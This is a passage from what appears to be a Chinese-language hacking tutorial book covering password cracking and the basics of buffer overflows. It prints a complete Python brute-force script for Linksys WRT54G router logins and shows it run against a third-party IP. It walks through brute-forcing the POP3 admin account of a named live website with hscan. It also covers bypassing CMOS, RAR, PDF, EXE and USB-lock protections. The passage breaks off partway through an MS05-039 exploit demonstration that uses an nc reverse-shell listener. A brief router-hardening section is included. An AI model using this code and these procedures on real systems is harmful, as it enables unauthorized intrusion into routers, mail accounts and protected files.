Linksys Brute force 是针对Linksys WRT54G路由器的破解工具，而且经过我的测试，不仅对linksys路由器有效，还可以破解市场中大部分的路由器。

先来公布一下破解linksys WRT54G路由器的代码：

```python
#!/usr/bin/python
#Linksys WRT54G router brute force
#http://www.darkc0de.com
#d3hydr8[at]gmail[dot]com

import threading, time, random, sys, urllib2, socket

if len(sys.argv) != 4:
    print "linksys <http://server> <username> <wordList>"
    sys.exit(1)

try:
    words = open(sys.argv[3], "r").readlines()
except IOError:
    print "Error: Check your wordlist path\n"
    sys.exit(1)

username = sys.argv[2]

def getword():
    lock = threading.Lock()
    lock.acquire()
    if len(words) != 0:
        value = random.sample(words, 1)
        words.remove(value[0])
    lock.release()
    return value[0][:-1]

def getauth(url):
    req = urllib2.Request(url)
    try:
        handle = urllib2.urlopen(req)
    except IOError, e:
        pass
    authline = e.headers.get('www-authenticate', '')
    server = e.headers.get('server', '')
    return authline, server

class Worker(threading.Thread):
    def run(self):
        password = getword()
        try:
            print "-"*12
            print "User:", username, "Password:", password
            req = urllib2.Request(sys.argv[1])
            passman = urllib2.HTTPPasswordMgrWithDefaultRealm()
            passman.add_password(None, sys.argv[1], username, password)
            authhandler = urllib2.HTTPBasicAuthHandler(passman)
            opener = urllib2.build_opener(authhandler)
            fd = opener.open(req)
            print "\t\n\n[+] Login successful: Username:",username,"Password:",password,"\n"
            print "[+] Retrieved", fd.geturl()
            info = fd.info()
            for key, value in info.items():
                print "%s = %s" % (key, value)
            sys.exit(2)
        except (urllib2.HTTPError, socket.error):
            pass

print "\n\t Linksys-WRT54G Brute v1.0"
print "\t---------------------------------Compiler By Black Mask--------\n"
print "[+] Server:",sys.argv[1]
print "[+] User:",username
print "[+] Words Loaded:",len(words)
try:
    auth, server = getauth(sys.argv[1])
except(AttributeError):
    print "\n[-] Connection Failure\n"
    sys.exit(1)
if auth.find("WRT54G") == -1:
    print "[-] WRT54G Router not found"
print "[+] Server:",server
print "[+]",auth,"\n"

for i in range(len(words)):
    work = Worker()
    work.setDaemon(1)
    work.start()
    time.sleep(1)
```


图 46

www.nohack.cn

将上面的代码保存为linksys.py文件，记得在本机安装Python 2.5.1。然后把linksys.py文件放到python的目录下，打开CMD输入：python linksys.py，如图47，命令格式为：linksys http://ip地址 用户名 密码字典。

再次输入命令：python linksys http://192.168.1.1 admin news.txt，执行结果如图48。


程序开始穷举密码了，由于我的字典比较小，很快就破解出来了，如图49。

返回信息：login successful: username:admin password:5201314，说明已经成功破解出了，用户名为：admin，密码为：

## 第三章 密码和文件加密破解

5201314。

登录路由器验证一下。打开 IE 访问：http://192.168.1.1，输入用户名：admin，密码：5201314，登录成功，如图 50。

考虑到很多朋友不太懂 python，所以我将 linksys.py 编译成 EXE 文件了。在 CMD 下输入 linksys 并回车，一样会显示出命令使用格式，如图 51，用法和前面是一样的。

我们再来破解其他路由器看看，输入：linksys http://6.*.*.* admin News.txt，回车后命令执行了，如图 52。


### 3.2.4 防御路由器破解

路由器用户名及密码遭破解，90% 都是用户自己造成的。问题 1：没有修改默认用户名和密码，或将密码设置成弱口令，比如：123、123456 等比较好猜测的密码。问题 2：市场上有一部分路由器默认是允许外网 WEB 访问的。我们结合这两个问题，给出解决方法。

- 1、修改路由器用户名及密码，最好设置成 10 位以上，并包括英文大小写、数字以及特殊符号等。

打开路由器 WEB 页，点击“系统管理”，再点击“修改密码”。比如：用户名称输入：blackmask，密码输入：JcQdef64378，如图 53。尽量设置一些不常用的用户名和密码，使别人想不到，也猜不出。记得设置完毕后按“确认”。


- 2、关闭外网访问路由器的 WEB

接着点击“系统服务”，再点击"WEB 远程管理”，将“允许通过 WAN 口访问 Web 服务器”前面的"√"去掉，如图 54，然后单击“提交”。

如果你必须要用 WEB 远程管理，有些路由器是支持修改 WEB 端口的，你将其修改成不常用的端口即可。

## 3.3 CMOS 密码破解攻坚战

计算机启动时，由存放在主板 ROM 中的 BIOS 将 CMOS 数据调入内存中，以实现控制系统。其中，Award 主板上的一小块 RAM 用于存放 CMOS 数据，地址为 00-7F 的共 128 个字节。当中的字节 1c 和 1d 存放的就是 CMOS 的密码（即 Supervisor Password），而维持 CMOS 数据存活的当然是那块锂电池了。

如果计算机能正常引导，只是不能进入 BIOS 设置，也就说机器设置了 Setup 密码。这种密码的设置主要是为了防止未授权用户设置 BIOS。当你的 CMOS 被同事恶作剧般地设置了密码时，你该怎么办呢？下面我简单介绍几个方法，让你轻松破解 CMOS 密码。

### 3.3.1 软件清除 CMOS 密码

当 CMOS 被设置了密码，重启电脑时一般按 Delete 键进入 CMOS 时，会出现密码输入框，如图 55。

按 esc 键退出，正常进入系统，打开“侠客密码查看器”，点击"bios 密码”。在弹出的窗口里，再点击“程序清除”，如图 56。


然后点"OK"，紧接着又弹出个对话框，提示“清除成功”，如图 57，我们单击“是”，重启电脑。

这样一般就清除掉你的 CMOS 密码了，如果这个方法不行，那么我们就来看下一个办法。

### 3.3.2 DEBUG 破解 CMOS 密码

在进入操作系统后，我们可以利用 DOS 状态下的 Debug 命令向端口 70H 和 71H 发送一个数据，手工清除 CMOS 密码，如图 58，具体操作如下：

```
C:\>debug
-o 70 10
-o 71 01
-q
```


> 注意：-后面是英文字母 0，其他是数字 0，千万别搞错了。

重新启动计算机后，就可以直接进入 CMOS 修改设置，而不再询问密码了。

注：70 和 71 是 CMOS 的两个端口，如果向它们随意写入一些错误数据（如 20、16、17 等），就会破坏 CMOS 里的所有设置。


### 3.3.3 手工放电破解 CMOS 密码

如果上面的两个方法都没能将你的 CMOS 密码破解掉，那么下面的这个方法一定能够帮你。首先关闭计算机，打开机箱盖子，找到主板上的电池，如图 59。

我们将这枚电池取下，如图 60，再拿把螺丝刀或剪刀之类的工具，将电池槽里的正负极对接一下，如图 61，就可以实现 CMOS 放电，将 CMOS 还原成出厂值，那么密码也就清除掉了。

## 3.4 E-mail 破解密码一往无前

破解 e-mail 密码目前并没有特别好的办法，除了邮件服务器存在系统漏洞之外，一般都是采用穷举破解。虽然这个方法十分的耗时间和资源，但是也十分的有效。


### 3.4.1 hscanGUI 破解 E-mail 密码

Hscan 是一个多功能的穷举破解密码工具，它不仅能够破解 e-mail 的密码，还可以破解 FTP、TELNET、MSSQL、MYSQL 等的密码。

我们的目标：http://bbs.bl-kj.com，是个邮箱的登录地址。首先我们得知道它的 IP 地址，打开 CMD 输入命令：ping bbs.bl-kj.com，如图 62。

现在得到 IP 地址：59.54.54.113，再来判断一下它的 POP3 服务器版本。输入命令：telnet bbs.bl-kj.com 110，显示信息如图 63。


现在来设置一下用户名和密码字典。hscan 的字典文件在 conf 文件夹里，里面的 pop_user.dic 和 pop_pass.dic 文件就是用户名和密码字典。

打开 pop_user.dic 文件，添加几个用户名，比如：root、admin、system 一些常用的管理员用户名，再用“易优超级字典生成器”制作一个密码字典，保存为 pop_pass.dic（制作过程我就不再重复了，参考前面章节）覆盖到 conf 文件夹里去，接下来我们就要开始设置 hscan 了。


打开"hscan 1.2"界面模式，如图 64。点击界面左下角的“菜单”，选择“模块”功能。由于我们只是破解 e-mail 密码，所以在"check POP3 weak accounts"前的框里打“勾”，其它都不选，如图 65。

最后“确定”，再点击“菜单”，选“参数”功能，在“起始 IP"和“结束 IP"里面都填入：59.54.54.113，其它的默认，如图 66。

点击“确定”后再点击“菜单”，选择“开始”，就开始破解 bbs.bl-kj.com 的管理员 e-mail 密码了。

穷举破解邮箱密码的速度快慢纯粹取决于你的字典文件的大小，长短不一。我们运气不错，很短时间就获得了密码，如图 67。

我们看到，用户名：root，密码：*****。在 IE 里访问 http://bbs.bl-kj.com，输入获得的用户名和密码，登录成功，如图 68。

### 3.4.2 hscanCMD 破解 E-mail 密码

Hscan 还可以在 CMD 下破解密码。我们进入 CMD，输入：hscan，如图 69，参数说明如下：

hscan 参数说明：

- -name --- 获取主机名；
- -port --- 默认端口扫描；
- -ftp --- FTP Banner、匿名用户、弱口令账号扫描；
- -ssh --- SSH Banner 扫描；
- -telnet --- TELNET Banner、弱口令账号扫描；
- -smtp --- SMTP Banner、匿名用户、弱口令账号扫描；
- -finger --- FINGER 漏洞 (SunOS/Solaris 用户列表扫描)；
- -iis --- IIS 漏洞扫描；
- -cgi --- Unix/NT cgi 漏洞扫描；


- -pop --- POP3 Banner、弱口令账号扫描;
- -rpc --- RPC 漏洞扫描;
- -ipc --- Windows NT/2000 用户列表获取，弱口令账号扫描;
- -imap --- IMAP Banner、弱口令账号扫描;
- -mssql --- MSSQL 弱口令账号扫描;
- -mysql --- MYSQL Version、弱口令账号扫描;
- -cisco --- CISCO 弱口令扫描;
- -plugin --- PLUGIN 扫描;
- -all --- 检测以上所有项目;

# 其它选项:

- -max <maxthread,maxthread> 指定最大线程数目、并发主机数目，默认为 120,40;
- -time <Timed Out> 指定 TCP 连接超时毫秒数，默认为 10000;
- -sleep <sleeptime> 指定 ftp/pop/imap/telnet 探测的线程开启间隔，默认为 200 毫秒;
- -ping 扫描主机前 ping 主机。

# 生成报告:

- -report 用于生成扫描报告，按 F8 键中断扫描。

了解了参数后，我们输入命令：hscan -h 59.54.54.113 -pop -max 300,50 -time 1000，如图 70。这里用户名和密码字典文件不用我们在参数里添加，因为用户名文件 pop_user.dic 和密码文件 pop_pass.dic 都在当前程序的 conf 文件夹里了。

由于字典文件比较小而且密码不算太难，所以破解速度非常快，一会儿结果就出来了，如图 71。


## 3.5 破解其他程序的访问密码


也许你会忘记了以前自己设置的文件密码而烦恼，比如，word、excel、rar 压缩包、PDF 文件的密码等，下面我将介绍几种破解方法。

### 3.5.1 破解加密的 PDF 文件

有些朋友通过 Acrobat engine 加密 PDF 文件，以防止 PDF 文件被修改、组装和页面复制。

比如本例当中的 cain 使用手册 pdf 文件，加密后是不允许复制的，如图 72。

我们的解密工具是"AP PDF Password Recovery"，并支持批量解密，如图 73。

点击“添加文件”，选中 cain 使用手册 pdf 文件，确定后再输入解密后的保存文件名，比如 cain，然后确定，如图 74。

最后点击“解密 PDF"，开始解密，如图 75，整个过程序非常快，2 秒都不到。

解密成功后，打开解密后的文件 cain.pdf，现在你就可以复制了，如图 76。


### 3.5.2 破解 RAR 压缩包密码

rar password recovery 是一个速度很快，可以帮你找回 RAR 文件密码的工具，注册后可以解开多达 128 位的密码!

打开"rar password recovery"，界面做的十分的漂亮。如图 77。

工具有三种破解方式:

- 1、暴力破解;
- 2、加速破解;
- 3、字典破解。

我们先来看第一种破解方式：暴力破解。从“加密的文件名”右边点“浏览”按钮，选择加密好的 RAR 压缩包。下面的“破解方式”处选择“暴力破解”，“密码长度”先选择 2-6 位 (注：密码长度的选择基本上要看你的运气了，没有技巧可言)，在“允许字符”处将数字、大小写字母的相关选项全打“勾”，其他的特殊符号、所有印刷符号以及自定义符号集可以不选，因为一般来说不会把密码设置的太复杂。

一切设置好了后，最后点击“开始”，程序就会自动开始暴力破解了，如图 78。

破解过程很漫长，主要看你的运气了。我们这次破解用了 26 秒，结果如图 79，密码是 ibm。

接着来看第二种破解方式：加速破解。从字面上就可以看出，这种方式可以提高破解的效率，减少所花的时间。

我们在软件主界面将破解方式选择为“加速破解”，其他的都默认，然后点击“开始”，破解结果如图 80，用时 20 秒，速度快了点。


再来看最后一种破解方式：字典破解，就是利用密码字典辅助破解。如何制作字典我就不再复述了，前面已经讲过很多次了。

我们这里将破解方式选择为“字典破解”，然后点击下面的“字典”标签项，在“词汇列表文件名”里点“选择”，选中你的字典。紧接着会弹出“正在载入字典”的对话框，如图 81，接着点击“确定”。

添加完字典后，点击“开始”进行破解，速度非常的快，只花一秒钟就破解出密码了，


如图 82，所以字典破解的速度完全取决于密码字典文件的内容。

### 3.5.3 EXE 文件加密破解

这里介绍的工具是"EXE 加口令”，运行后界面如图 83，然后单击右边的文件夹图标按钮，在弹出的对话框中选择一个要加密的 EXE 文件。接着在下面的两个密码输入框中输入相同的密码，并单击“开始加密文件”按钮。


此时，再次运行被加密的文件，会弹出一个“请输入密码”的窗口，如果没有输入正确的密码就无法访问和使用这个 EXE 文件，如图 84。

上面介绍了如何使用"EXE 加口令”这款工具对 EXE 文件进行加密操作，接下来我们探讨一下这个工具的加密方式，并且给出破解方法。

首先使用 C32ASM 这款工具打开被加密过的文件，可以看到有一段 ASCII 代码，为"THIS PROGRAM MUST BE RUN UNDER WIN32"。这段字符串的含义就是程序必须运行在 Win32 环境下，也就是必须在 Windows 2000/XP 等操作系统环境中才能被执行，这段字符串表示这是一个 EXE 文件的物理开头部分，如图 85。

此时使用组合键 Ctrl+F，打开"FIND"查找对话框，在搜索栏中输入"THIS"，然后单击“下一个”按钮，如图 86。

可以看到，如图 87，程序自动定位到下面的位置，并且也有一段"cannot be run in DOS mode"字符串。从这段字符串往上一点，可以看到一个"MZ"标志，这个表示是程序的开头。

再从"MZ"标记往上看，可以看到“请输入口令”、“口令是 123"等信息，这里其实已经得到了被加密程序的打开密码了，如图 87。

现在就知道这个加密程序是如何对 EXE 程序进行加密的了，它的加密方式为：加密程序 + 密码字符串 + 原来的程序，也就是把原来的正常程序和一个加密程序合并为一个文件，同时把密码等配置信息写入到这个复合程序中。

依次单击 C32ASM 的“文件”-“建立新文件”，在弹出的对话框中直接单击“确定”按钮即可，如图 88。

此时来到原来的窗口中，把"MZ"标记之后的第二个程序的所有十六进制代码全部使用鼠标拖动复制下来（Ctrl+C 组合键）；然后来到那个新建的空文件标签页，把剪贴板的内容全部粘贴出来（Ctrl+V 组合键），可以看到马上弹出一个对话框，如图 89，我们直接单击“是”按钮即可。


此时来到 C32ASM 主界面，选择“文件”-“另存为”，在弹出的“另存为”保存窗口中输入一个名字，比如"DUMP.EXE"，如图 90，然后单击“保存”按钮。


现在运行这个另存为的 DUMP.EXE 文件，程序成功运行，如图 91。


### 3.5.4 U 盘文件加密和解密

移动加密大师 ulock 是一款使用广泛的 U 盘加密工具，可以对 U 盘的文件夹进行加密操作，对于一些机密文件可以有一定的保护作用。

在本节，就来探讨如何对此款工具进行解密操作，同时也提醒各位朋友，所有的加密工具都是一个辅助手段而已，要真正保护自己的文件不被破解，就要树立安全意识，防范于未然。

- 1、U 盘加密和拷贝法破解

作为一名黑客技术爱好者，不免要研究一下如何破解这款软件的加密过程，为了测试方便，这里首先要设置一下系统选项。

首先依次选择资源管理器中的“工具”-“文件夹选项”，在弹出的“文件夹选项”对话框中，勾选“显示所有文件和文件夹”，去掉“隐藏受保护的操作系统文件”和“隐藏已知文件类型的扩展名”前面的勾，如图 92。


设置完毕后单击确定，然后插入 U 盘，并且按照 ULOCK 的操作提示把 ULOCK 复制到 U 盘目录中。这里首先使用 ULOCK 来对 U 盘中的 2233 这个文件夹进行加密设置，我设置的密码是"123"，如图 93。


输入密码完毕之后，单击“加密”按钮保存设置，现在可以看到 2233 文件夹内的文件消失了。此时要想显示刚才的文件，就要双击运行 ULOCK.exe 文件，在弹出的窗口中输入密码。如果密码输入错误，就无法进入，如图 94。

我们看到，加密后的 2233 文件夹中多出了一个 DESKTOP.INI 文件和 THUMBS.DN 文件

## 第三章 密码和文件加密破解

文件夹，进入 THUMBS.DN 文件夹后看不到任何东西。虽然在 WINDOWS 系统的资源管理器中看不到，但是我们可以使用 WSYSCHECK 来查看。

打开 WSYSCHECK 后可以看到，在这个 THUMBS.DN 文件夹中，存在陌生的 1.MEM、2.MEM、3.MEM 这三个文件，如图 95。发扬探索发现的精神，我们把这三个文件 COPY 出来。

先看看这个 1.MEM 文件，使用 C32ASM 打开，看到了一个 MZ 头，说明是 EXE 文件，如图 96。

于是我的脑海中出现了一个念头，如果把这个 1.MEM 文件的后缀名修改为 EXE，是否就会让文件露出真面目呢？大胆的把这个 1.MEM 修改为 1.EXE，结果居然就解密了！修改后缀名后运行，程序一切正常，如图 97。

接着我再把 2.MEM 用 C32ASM 打开，可以看到是一个 RAR 文件头，于是大胆的把 2.MEM 文件名修改为 2.RAR，然后双击执行，果不其然，这就是一个 RAR 文件，如图 98。

按照同样的原理，使用 C32ASM 打开这个 3.MEM 文件，可以看到“BM6”字样，于是大胆猜想这个文件是一个 BMP 格式的文件。接着把 3.MEM 文件名修改为 3.BMP，双击打开，大快人心，果然就是 BMP 文件，如图 99。

加密文件夹里除了这 3 个 .mem 文件外，还有个“117789687LIST.mem”文件，打开它发现内容如下，是加密的，看来无法破解。

```
加密数据如下：

BAE5CBD6D7F0C5D2BFD42B686B6F080E342
A686168090F4F724970776C672B617D61080E372A686
168090FD0DF51C0C8CCCBD2B45D54CAB1C8
B72B766476080E362A686168090F
```


### 2、U盘加密和覆盖法破解

在上面的破解过程中，我们看到了一个没有后缀名的“117789687”文件，笔者大胆猜想这个就是保存了密码数值的文件，于是为了测试，先使用 ULOCK 对 5566 这个目录进行加密，记住密码为“123456”，如图 100。


加密完成后，再使用 WSYSCHECK 打开这个 5566 文件夹，在其中可以看到“117789687”文件。打开这个文件，内容显示为“-343636303032”，如图 101。


现在我们有思路：如果把前一例中使用到的那个“117789687”文件（密码为“123”）覆盖掉这个文件，是否会把密码也“覆盖”成为“123”？

说干就干，使用 WSYSCHECK 的复制、粘贴功能，把原来的 2233 文件夹中的“117789687”文件覆盖掉 5566 文件夹中的“117789687”，如图 102。

现在运行 5566 目录中的这个 ULOCK 文件，输入密码“123”，居然提示“解密成功”，如图 103。

### 3.5.5 文件夹加密隐藏王的破解之路

文件夹加密隐藏王是一款简单易用的文件夹隐藏工具，其使用方便，上手容易，本节就对此款工具的使用和解密进行一些研究。

#### 1、使用方法

首先创建一个文件夹，然后将需要加密的文件复制到其中，如图 104。


打开文件夹加密隐藏王，通过软件左侧的目录浏览功能，选择要加密的文件夹，然后单击“添加”按钮。当文件夹被添加到了右侧的隐藏项目列表中时，则可以单击“隐藏”按钮对该文件夹进行隐藏操作，如图 105。

此时，就算我们通过资源管理器中的文件夹选项查看所有文件，也无法再找到被隐藏的文件夹了，如图 106、图 107。

而当用户希望显示被隐藏的文件夹时，则可以来到文件夹加密隐藏王中，选择要恢复的文件夹，然后单击“显示”按钮即可，如图 108。

此时，被隐藏的文件夹马上就自动显示出来了，如图 109。

#### 2、手工破解

那么文件夹加密隐藏王是如何加密文件夹的呢？这里我们来研究破解它的加密技术。先使用 WSYSCHECK 这款内核级的工具进行文件夹的浏览，可以看到在系统资源管理器中看不到（被隐藏）的文件夹，如图 110。

此时我们可以使用 WSYSCHECK 的文件复制功能将文件拷贝到剪贴板，如图 111。

将剪贴板中的文件粘贴到桌面，此时进行尝试运行，发现运行正常，如图 112。

这样我们就轻松的使用 WSYSCHECK 这款工具实现了对文件夹加密隐藏王的破解！由此可见，文件夹的加密并非是绝对的安全，通过其他的方法和途径，我们一样可以看到被加密的文件。

## 3.6 小结

本章主要讲了一些常用的密码破解方法，从 Windows XP 密码的本地破解到文件密码破解，整个过程看似简单，又蕴藏了许多的技巧。其实破解是一件非常烦琐的事情，而且特别耗费时间和精力，并不是三言两语能够表述清楚的，其中的乐趣也只有靠自己亲身去体验才知道。最后，希望大家能够在本章中学到破解的基础知识，至于如何去更深入，那就要靠大家自己的努力了。

# 第四章 缓冲区溢出和代码安全

缓冲区溢出攻击之所以成为一种常见的攻击手段，其原因在于存在缓冲区溢出漏洞的系统非常普遍。黑客可以利用缓冲区溢出漏洞植入并且执行攻击代码，从而得到被攻击主机的控制权。本章将介绍缓冲区溢出相关的基本知识和技术，使读者对缓冲区溢出这一流行的黑客技术有所了解。

## 4.1 缓冲区溢出概述

缓冲区是内存中存放数据的地方，在程序试图将数据放到机器内存中的某一个位置时，如果没有足够的空间，就会发生缓冲区溢出。而人为的缓冲区溢出攻击则是有一定企图的，例如攻击者写一个超过缓冲区长度的字符串植入到缓冲区，而这个字符串通常是精心构造的，会在溢出的时候达到攻击的效果。

### 4.1.1 什么是缓冲区溢出

缓冲区是程序运行时计算机内存中的一个连续区域，它保存了给定类型的数据，并可能由于随着动态分配而出现问题。大多时候为了不占用太多的内存，一个有动态分配内存大小的变量在程序运行时才决定给它们分配多少内存。如果程序在动态分配缓冲区放入超长的数据，它就会溢出了。

```c
char a[10];
gets(a);
```

代码的意思是表示定义了一个可以存放 10 个字符的数组 a，如果我们输入的字符数超过了 10 个，那么这个程序就会溢出，轻则程序执行结果不正确，重则导致程序甚至系统崩溃。如果这些超过限定长度的字符被精心构造，就有可能会成为攻击系统的代码。

为什么缓冲区超过长度，并且精心构造代码就能够对系统进行攻击呢？我们可以这样简单的理解：

缓冲区是一块用于存放数据的临时内存空间，它的长度事先已经被程序或操作系统定义好，发生溢出时，如果用一个实际存在的指令地址来覆盖被调用函数的返回地址，则系统就会转而执行这个指令，这一点就是缓冲区溢出被用来进行攻击的最关键之处。

### 4.1.2 缓冲区溢出攻击方式

- 1、在程序的地址空间里安排适当的代码
这种方式往往是相对简单的，如果攻击代码在所攻击程序中已经存在，那么就简单地对代码传递一些参数，然后使程序跳转到目标中就可以完成了。这也就是所谓的“植入法”，当向目标程序里输入一个字符串时，程序就会把这个字符串放到缓冲区里，这个字符串包含的数据是可以在这个所攻击的目标的硬件平台（例如 PC 的 X86 平台）上运行的指令序列。

- 2、控制程序转移到攻击代码的形式
缓冲区溢出漏洞攻击通过改变程序的执行流程，使它跳转到攻击代码，最基本的就是溢出一个没有检查或者其他漏洞的缓冲区，这样做就会扰乱程序的正常执行次序，转而去执行攻击代码。

- 3、植入综合代码和流程控制
攻击时定位在一个可供溢出的自动变量，然后向程序传递一个很大的字符串，在引发缓冲区溢出改变 Activation Records 的同时植入代码。

【小知识】：Activation Records，即激活记录，它包含了函数结束时返回的地址，这是缓冲区溢出攻击所重点关注的地址。

### 4.1.3 缓冲区溢出的根源

缓冲区溢出的根源实质是在程序的开发阶段就产生了，并不是黑客发明的某一工具，而是利用程序本身的缺陷。较容易产生的缓冲区溢出程序可能是由类似于 C 语言这样不“安全”的语言编写，以及程序员的安全意识不高，缺乏对外部接口的数据进行有效的边界检查所致。

【小知识】：这里的 C 语言不“安全”，并不是指 C 语言真的不安全，而是 C 语言可能由于程序员的使用不当，导致一些缓冲区溢出漏洞，而 C 语言本身又不会对这些可能的越界问题进行检查。C 语言实际上是非常强大的编程语言，只要使用得当，它仍然是安全的。

例如，C 语言中的 gets 函数，它会接受用户的输入，并将这些输入存放在指定了大小的内存中。如果用户输入了超过限定长度大小的字符串，C 语言也不会提示错误，而是原本无误的将用户输入的所有字符放进这片内存中。但是这片内存装不下这么多的字符，所以就会导致缓冲区溢出。下面通过一个简单的 C 语言程序，直观的了解缓冲区溢出。

在 VC++ 6.0 中（若未特别指明，本章的代码均使用 VC++ 6.0 编译）输入以下代码，如图 1，编写一段存在溢出漏洞的程序：

```c
#include <stdio.h>
int main()
{
    char str[5];
    gets(str);
    puts(str);
    return 0;
}
```


该程序的功能原本是通过 gets 函数接受用户输入的字符，长度最多为 5，并将用户输入的这些字符存放在数据 str 所在的内存区域中。


现在编译并运行该程序，然后正确的输入“hello”5 个字符并回车，程序没任何异常，如图 2。


程序代码中定义的最大接收字符数不能超过 5 个，我们输入 5 个字符是正常的，现在再来输入超过 5 个长度的字符，例如“hello I’m not a real hacker。”，再次观察程序的运行，出错啦，系统提示需要关闭该程序，如图 3。

超过限定长度的输出导致了程序崩溃，因为超过长度的字符在指定的 5 个字符大小的数组 str 中无法存放，只能存放在一些不该存放的地方，从而引起程序崩溃。

这只是溢出漏洞的简单例子，实际的溢出十分复杂，但原因都是由于程序本身的缺陷所导致的。

## 4.2 缓冲区溢出与代码

缓冲区溢出漏洞的存在与程序在代码上的编写有着密不可分的关系，本节将通过一些简单的实例代码编写程序来进行演示。由于真正的缓冲区溢出攻击涉及到许多系统底层的知识，因此作为基础学习，从简单的代码和概念开始入手，并为后续更深入的学习打下基础。

### 4.2.1 从代码入手

正如上面所提到的，C 语言是“最适合”编写有溢出漏洞的程序了，例如许多 C 语言中的函数都有可能导致缓冲区溢出。除了 gets 函数外，还有 strcpy、strcat、scanf 等等。

我们已经直观的观察到了缓冲区溢出的效果，即导致程序崩溃，而缓冲区溢出攻击就是将这些结果变为黑客期待的结果。如果黑客利用缓冲区溢出程序中某一个函数调用的返回地址替换了一段可以执行的指令，那么这段指令就可以按照黑客的希望所执行。

下面我们通过编写一段 C 语言代码来演示下如何利用缓冲区溢出使程序转而执行其它代码的。

在 VC 中输入以下代码：

```c
#include<stdio.h>
int hack()
{
    printf("我不是黑客！\n");
    return 0;
}
int main()
{
    int buffer[1];
    printf("程序开始运行。\n");
    printf("程序开始调用hack函数。\n");
    hack();
    printf("hack函数调用完成。\n");
    buffer[2]=(int)hack;
    printf("程序退出。\n");
    return 0;
}
```


编译并运行程序，显示信息如图 4。

在这段代码中，我们编写了个函数 hack，该函数的功能很简单，就是在屏幕上打印出一串字符“我不是黑客！”，以提示程序的确转入了攻击代码。但是当打印出了“程序退出。”后，我们并没有再次调用 hack 函数，屏幕上却仍然打印出了“我不是黑客！”的字符串。

这是因为，我们在编写程序时故意编写了下面这一段会导致缓冲区溢出的代码，即：

```c
buffer[2]=(int)hack;
```

注意：我们定义的 buffer 数组只能存放一个整形数，即只能对 buffer[0] 进行操作，而我们却超过了限定，对 buffer[2] 进行了操作，这就导致了缓冲区溢出的发生。而对 buffer[2] 进行的操作，恰恰是我们精心构造的一个函数地址，即 hack 函数的地址。因此，当打印出了“程序退出。”后，main 函数已经返回给了系统，但返回地址却遭到了语句 buffer[2]=(int)hack; 的破坏，使得该地址变成了 hack 函数的地址，从而额外的打印了一次“我不是黑客！”的字符串，这也就是缓冲区溢出的本质。

由于我们的程序破坏了堆栈地址，因此同样会有错误提示，如图 5。

在直观上了解了缓冲区溢出现象后，下面从程序在内存中的分布这一角度来解释与缓冲区溢出的一些基本知识。

程序运行时，在内存中包含以下部分：

- 程序参数和程序环境；
- 栈 (stack)，它通常在程序执行时增长，一般情况下它向下朝堆增长；
- 堆 (heap)，它也在程序执行时增长，相反，它向上朝堆栈增长。例如 C 语言的 malloc 函数，就是在堆上动态的开辟内存空间；
- BSS 段，它包含未初始化的全局可用数据（例如，全局变量）；
- 数据段，它包含初始化的全局可用数据（通常是全局变量）；
- 文本段，它包含只读程序代码。

BSS、数据和文本段组成静态内存，即在程序运行之前这些段的大小已经固定，例如如下代码：

```c
#include <stdio.h>
char *buf="hello";
int i;
int main()
{
    i = 1;
    return 0;
}
```


图 5

其中变量 i 属于 BSS 段，而 buf 属于数据段。例如，下面代码中的变量 i 就存放在堆中，在函数返回后，它就会被自动的释放了。

```c
int foo()
{
    int i;
    for (i = 0; i < 10; i++)
        putchar("*");
}
```

#### 4.2.2 Shellcode与机器码

Shellcode 实际上是一段代码（机器码），它可以被认为是溢出程序和蠕虫病毒的核心。也就是说，Shellcode 实际上就是一段 CPU 的指令，而我们平时所写的程序大多采用高级语言编写，再底层就是汇编语言，几乎没有人使用机器语言编写程序，而程序的指令在内存中又确实是以机器码的方式存在的。

我们编写一个函数，它可以打印一串字符，代码如下：

```c
#include <stdio.h>
int display()
{
    printf("Just a test\n");
    return 0;
}
int main()
{
    unsigned char buff[256];
    unsigned char *pointer_source=(unsigned char *)&display;
    unsigned char *pointer_dest=buff;
    int result=0;
    while(true)
    {
        *pointer_dest=*pointer_source;
        printf("\x%02x", *pointer_source);
        if(*pointer_source==0xc3)
        {
            break;
        }
        pointer_dest++,pointer_source++;
    }
    printf("\n");
    return 0;
}
```


这段代码通过语句 `unsigned char *pointer_source=(unsigned char *)&display;` 取得函数的地址，然后将函数在内存中的内容以机器码的方式打印出来，编译运行后就可以看到该程序的结果，如图 6。

虽然这段 Shellcode 并没有什么真正意义上的功能，但它展示了 Shellcode 的基本原理。因此，以后每当我们需要调用 display 函数时，就可以这段输出的 Shellcode 来代替了。

## 4.3 利用缓冲区溢出攻击

要找出系统或软件中的溢出漏洞是相对较难的一件事，即寻找所谓的“溢出点”。通常我们见到的缓冲区溢出攻击都是针对某一系统、某一应用程序进行的，在这些已知漏洞上进行的攻击，例如常见的各种针对 Windows 系统溢出漏洞的 ms-xx-xx 自动溢出工具等等。

### 4.3.1 缓冲区溢出漏洞

缓冲区溢出漏洞几乎存在于所有的系统和应用软件中，据统计，80% 的攻击事件与缓冲区溢出漏洞有关，它可能造成系统崩溃，黑客非法获得系统权限等等。防火墙对缓冲区溢出攻击几乎无能为力，因为黑客传输的数据分组并无异常特征，没有任何欺骗，例如 Nimada 病毒就是这样轻易的传播的。

另外，可以用来实施缓冲区溢出攻击的字符串非常多样化，无法与正常数据有效进行区分。缓冲区溢出攻击不是一种窃密和欺骗的手段，而是从计算机系统的最底层发起攻击，因此在它的攻击下，系统的身份验证和访问权限等安全策略形同虚设。

### 4.3.2 利用 MS05-039 溢出漏洞进行攻击

前面的章节我们介绍了溢出漏洞的形成，在本节就来看看溢出漏洞的实战攻击。在微软的公告中，MS05-039 漏洞可能允许远程执行代码和特权提升，影响的系统包括 Windows 2000、Windows XP SP1、Windows XP SP2 以及 Windows 2003。因此，我们将演示利用该漏洞进行攻击，获取目标机的权限。

首先我们需要确定虚拟机中的系统是否存在 MS05-039 漏洞，可以使用 McAfee 公司提供的 MS05-039 Scanner 进行检测，其程序主界面如图 7。

在“Start IP”与“End IP”中填入目标机的 IP 地址，如“10.0.0.13”，然后点击右边的“->”按钮添加 IP 进列表，再单击下面的蓝色三角按钮开始扫描，结果如图 8。

从返回的结果“Vulnerable”看来，目标机“10.0.0.13”存在 MS05-039 漏洞，可以进行利用，接下来就可以利用 MS05-039 漏洞利用程序来实施攻击了。

由于 MS05-039 漏洞利用程序在攻击成功后会反向连接一个 shell 到本地系统，因此在利用之前我们可以使用 NC 监听这一个反向连接的端口，例如 3456。

```cmd
命令提示符 - nc -vv -l -p 3456
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\Documents and Settings\liji>e:
